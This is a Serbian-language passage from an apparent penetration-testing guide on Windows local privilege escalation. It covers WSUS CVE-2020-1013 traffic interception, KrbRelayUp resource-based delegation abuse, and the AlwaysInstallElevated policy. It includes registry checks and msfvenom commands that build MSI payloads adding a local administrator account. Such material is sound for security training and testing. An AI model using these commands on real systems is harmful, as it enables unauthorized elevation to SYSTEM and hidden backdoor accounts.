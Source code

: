 **WSUS CVE-2020-1013**

[**Pročitajte kompletan izveštaj ovde**](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/).\
U osnovi, ovo je propust koji ovaj bag iskorišćava:

> Ako imamo moć da izmenimo naš lokalni korisnički proxy, i Windows ažuriranja koriste proxy konfigurisan u postavkama Internet Explorer-a, stoga imamo moć da pokrenemo [PyWSUS](https://github.com/GoSecure/pywsus) lokalno da presretnemo sopstveni saobraćaj i pokrenemo kod kao privilegovani korisnik na našem resursu.
>
> Nadalje, pošto WSUS servis koristi postavke trenutnog korisnika, takođe će koristiti njegovu bazu sertifikata. Ako generišemo samopotpisani sertifikat za WSUS ime hosta i dodamo ovaj sertifikat u bazu sertifikata trenutnog korisnika, bićemo u mogućnosti da presretnemo i HTTP i HTTPS WSUS saobraćaj. WSUS ne koristi mehanizme poput HSTS-a za implementaciju validacije tipa poverenja pri prvom korišćenju na sertifikatu. Ako sertifikat koji se predstavlja je poveren od strane korisnika i ima ispravno ime hosta, biće prihvaćen od strane servisa.

Možete iskoristiti ovu ranjivost koristeći alat [**WSUSpicious**](https://github.com/GoSecure/wsuspicious) (kada bude oslobođen).

## KrbRelayUp

Postoji **ranjivost lokalnog eskaliranja privilegija** u Windows **domenskim** okruženjima pod određenim uslovima. Ovi uslovi uključuju okruženja gde **LDAP potpisivanje nije obavezno,** korisnici imaju samoprava koja im omogućava konfigurisanje **Delegacije ograničenja zasnovane na resursima (RBCD),** i mogućnost korisnika da kreiraju računare unutar domena. Važno je napomenuti da se ovi **zahtevi** ispunjavaju korišćenjem **podrazumevanih postavki**.

Pronađite **eksploataciju u** [**https://github.com/Dec0ne/KrbRelayUp**](https://github.com/Dec0ne/KrbRelayUp)

Za više informacija o toku napada proverite [https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/](https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/)

## AlwaysInstallElevated

**Ako** su ova 2 registra **omogućena** (vrednost je **0x1**), tada korisnici sa bilo kojim privilegijama mogu **instalirati** (izvršiti) `*.msi` fajlove kao NT AUTHORITY\\**SYSTEM**.

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Metasploit payloadi

```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
